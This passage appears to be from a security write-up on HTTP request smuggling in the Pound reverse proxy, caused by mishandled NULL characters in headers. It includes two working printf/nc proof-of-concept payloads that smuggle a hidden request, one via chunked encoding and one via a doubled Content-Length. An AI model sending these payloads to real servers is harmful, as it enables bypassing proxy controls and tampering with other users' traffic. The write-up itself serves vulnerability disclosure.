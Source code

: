 Like most HTTP servers Pound is written in C, and C string ends with the NULL character (`\0`).
Finding a NULL character in an HTTP request (not the body part) should render an error,
but sometimes the parser does not detect the NULL character because the parsed line was wrongly interpreted as a C string.

With Pound as soon as a NULL character was encountered in an header line the parser would continue the header with the next line.

{% highlight bash %}
# 2 responses instead of 3 (2nd query is wipped out by pound, used as a body)
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Content-\0dummy: foo\r\n'\
'length: 56\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
{% endhighlight %}

Here is another variation using the Double Content-length Support. This could be
used if the previous actor in the chain of proxies had no support for double
Content-Length (very likely).. but had support for NULL characters (less likely).

{% highlight bash %}
# 2 responses instead of 3 (2nd query is wipped out by pound, used as a body)
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Content-\0dummy: foo\r\n'\
'length: 51\r\n'\
'Content-length: 0\r\n'\
'\r\n'\
'GET /tmp HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
{% endhighlight %}
